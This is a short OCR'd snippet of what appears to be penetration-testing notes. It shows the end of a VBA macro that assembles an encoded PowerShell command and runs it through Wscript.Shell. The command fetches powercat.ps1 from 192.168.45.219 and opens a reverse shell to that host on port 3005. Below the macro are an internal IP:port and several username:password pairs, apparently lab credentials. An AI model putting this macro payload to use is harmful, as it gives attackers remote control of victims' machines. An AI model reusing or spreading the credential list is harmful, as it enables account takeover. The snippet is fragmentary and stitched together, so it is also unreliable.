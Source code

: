 ```c
    Str = Str + "ALgAxADYAOAAuADQANQAuADIAMQA5AC8AcABvAHcAZQByAGMAY"
    Str = Str + "QB0AC4AcABzADEAIgApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
    Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMQA5ACAALQBwA"
    Str = Str + "CAAMwAwADAANQAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
    Str = Str + "A"
    CreateObject("Wscript.Shell").Run Str
End Sub

// admin  :  Complex__1__Password!
10.10.164.12:8080
// summer12
// test:password123
// lance:circus5
// baop_user:CSHrckxgVskAuVEwB0gZ
// s.ahmed:WelcomeToSkyl4rk!
```